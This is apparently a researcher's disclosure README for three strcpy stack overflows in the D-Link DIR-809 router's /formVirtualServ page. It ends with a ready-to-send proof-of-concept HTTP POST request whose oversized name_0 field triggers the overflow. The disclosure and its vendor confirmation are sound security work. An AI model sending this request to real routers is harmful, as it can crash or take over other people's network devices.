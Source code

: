 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_09h01_44](README/2021-05-10_09h01_44.png)

The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 

![2021-05-09_20h27_04](README/2021-05-09_20h27_04.png)

![2021-05-09_20h33_14](README/2021-05-09_20h33_14.png)



## PoC

``` 
POST /formVirtualServ.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server.asp?t=1620556982214
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=sVlZzC4RHx
Connection: close

settingsChanged=1&curTime=1620557025736&HNAP_AUTH=B57888CD9D38113835E437CE4735DFC4+1620557025&submit-url=%2FAdvanced%2FVirtual_Server.asp&index=1&enabled_0=0&used_0=0&name_0=1231231231233*0x200&default_virtual_servers_0=-1&public_port_0=10000&public_port_to_0=10000&ip_0=192.168.0.34&computer_list_ipaddr_select_0=-1&private_port_0=10000&hidden_private_port_to_0=10000&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=1
```





## Acknowledgment

Credit to [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/) , [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

